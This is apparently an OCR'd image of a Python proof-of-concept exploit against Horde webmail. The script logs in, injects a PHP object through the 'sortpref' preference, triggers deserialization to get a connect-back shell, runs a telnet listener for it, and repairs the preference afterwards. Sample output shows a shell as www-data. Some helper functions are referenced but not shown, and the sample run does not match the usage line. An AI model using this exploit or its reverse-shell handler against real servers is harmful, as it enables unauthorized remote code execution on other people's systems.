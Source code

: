 ```angular2

def handler(lport):
    print("(+) starting handler on port %d" % lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", lport))
    s.listen(1)
    conn, addr = s.accept()
    print("(+) connection from %s" % addr[0])
    t.sock = conn
    print("(+) pop thy shell!")
    t.interact()

def fix_path(p):
    if p == "/":
        return p
    if not p.startswith("/"):
        p = "/%s" % p
    if not p.endswith("/"):
        p = "%s/" % p
    return p

def main():
    if len(sys.argv) < 5:
        print("(+) usage %s <target> <path> <user:pass> <connectback:port>" % sys.argv[0])
        print("(+) eg: %s 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337" % sys.argv[0])
        sys.exit(0)
    target = sys.argv[1]
    path   = fix_path(sys.argv[2])
    user   = sys.argv[3].split(":")[0]
    pswd   = sys.argv[3].split(":")[1]
    host   = sys.argv[4].split(":")[0]
    port   = int(sys.argv[4].split(":")[1])
    print("(+) targeting http://%s%s" % (target, path))
    session = get_session(target, path, user, pswd)
    print("(+) obtained session %s" % session)
    set_pref(target, path, session, 'sortpref', get_pop())
    print("(+) inserted our php object")
    print("(+) triggering deserialization...")
    trigger_deserialization(target, path, session, host, port)
    set_pref(target, path, session, 'sortpref', get_patch())
    print("(+) repaired the target!")

if __name__ == "__main__":
    main()
```
```angular2
saturn:~$./poc.py 172.16.175.148/horde/ hordeuser:pass123 172.16.175.145
(+) targeting http://172.16.175.145/horde/
(+) obtained session iefankvohbl8og0mtaadm3efb6
(+) inserted our php object
(+) triggering deserialization...
(+) starting handler on port 1337
(+) connection from 172.16.175.145
(+) pop thy shell!
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/horde/services
```
